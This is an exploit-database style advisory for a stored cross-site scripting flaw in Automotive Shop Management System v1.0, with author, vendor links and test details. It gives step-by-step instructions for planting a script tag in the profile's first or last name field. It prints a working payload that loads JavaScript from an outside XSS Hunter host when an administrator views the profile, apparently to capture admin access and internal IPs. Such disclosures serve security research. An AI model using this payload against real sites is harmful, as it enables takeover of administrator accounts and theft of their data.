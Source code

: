 # Exploit Title: Automotive Shop Management System v1.0 - Stored Cross Site Scripting(XSS)
# Exploit Author: NS Kumar (n1_x)
# Date: May 6, 2022
# Vendor Homepage: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/asms_0.zip
# Tested on: Parrot Linux, Apache, Mysql
# Vendor: oretnom23
# Version: v1.0
# Exploit Description:
# Automotive Shop Management System v1.0 suffers from stored XSS Injection Vulnerability allowing remote attackers to gain admin access and view internal IPs. 

````````````````````````````````````````To Exploit````````````````````````````````````````````````````
Step 1: Goto Profile Page

Step 2: Put XSS Hunter Payload on Either First Name or Last Name field

Step 3: Wait for Admin to view your details

Step 4: Then you will see xss fires alert on xss hunter page

Payload Used for this Exploit: "><script src=https://d4.xss.ht></script>

```````````````````````````````````````````````````````````````````````````````````````````````````````